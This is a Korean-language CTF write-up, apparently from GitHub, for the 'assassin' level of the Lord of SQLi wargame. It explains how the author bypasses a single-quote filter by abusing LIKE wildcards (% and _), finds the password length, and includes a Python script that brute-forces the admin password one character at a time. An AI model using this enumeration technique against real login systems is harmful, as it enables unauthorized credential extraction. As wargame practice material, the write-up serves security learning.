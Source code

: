<img width="209" alt="스크린샷 2020-01-19 오후 8 01 15" src="https://user-images.githubusercontent.com/54495632/72680069-f54d3680-3af8-11ea-80fb-73db4c36b3c0.png">



15번 assassin



<img width="589" alt="스크린샷 2020-01-19 오후 8 03 13" src="https://user-images.githubusercontent.com/54495632/72680074-00a06200-3af9-11ea-91dc-67255cac15af.png">



if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
$query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 

preg_match로 작은 따옴표가 필터링되고
쿼리문 자체에 like가 들어가 있다.

like가 주어져 있어서 %를 통해 우회하기로 했다.
%는 0개 이상의 모든 글자를 대체할 수 있다.



<img width="640" alt="스크린샷 2020-01-19 오후 8 12 59" src="https://user-images.githubusercontent.com/54495632/72680126-a522a400-3af9-11ea-8a34-c334a63826b2.png">
<img width="644" alt="스크린샷 2020-01-19 오후 8 13 13" src="https://user-images.githubusercontent.com/54495632/72680128-a653d100-3af9-11ea-9f14-f5a6b3be4c83.png">
<img width="644" alt="스크린샷 2020-01-19 오후 8 13 49" src="https://user-images.githubusercontent.com/54495632/72680129-a81d9480-3af9-11ea-9cc9-92dbcdf55d92.png">
<img width="643" alt="스크린샷 2020-01-19 오후 8 13 58" src="https://user-images.githubusercontent.com/54495632/72680424-f718f900-3afc-11ea-84f8-34d3d4c9b5b2.png">



다음과 같이 %와 여러 번 숫자를 대입하여 admin의 pw를 찾는 방법으로 문제를 해결할 수 있다.

_ 는 한글자를 대체할 수 있는데 다음과 같이 Pw의 길이를 유추할 수 있다.



<img width="638" alt="스크린샷 2020-01-19 오후 8 12 49" src="https://user-images.githubusercontent.com/54495632/72680171-545f7b00-3afa-11ea-8425-54cbf3c4d3f0.png">

_ 가 8 개 필요하다. pw - lenghth =8

import requests

cookies={'PHPSESSID':'쿠키값'}
url="https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?"

pw=""
for i in range(1,9):
    for j in range(48,128):
        query="pw="+pw+chr(j)+"%"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0 or (res.text).find("Hello guest")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)

다음과 같은 파이썬 코드를 이용해 pw를 얻을 수 있다.



<img width="295" alt="스크린샷 2020-01-19 오후 8 43 27" src="https://user-images.githubusercontent.com/54495632/72680382-8d98ea80-3afc-11ea-9906-6363d5ae21d5.png">

<img width="647" alt="스크린샷 2020-01-19 오후 8 43 48" src="https://user-images.githubusercontent.com/54495632/72680384-8f62ae00-3afc-11ea-8bef-425fb59d83d8.png">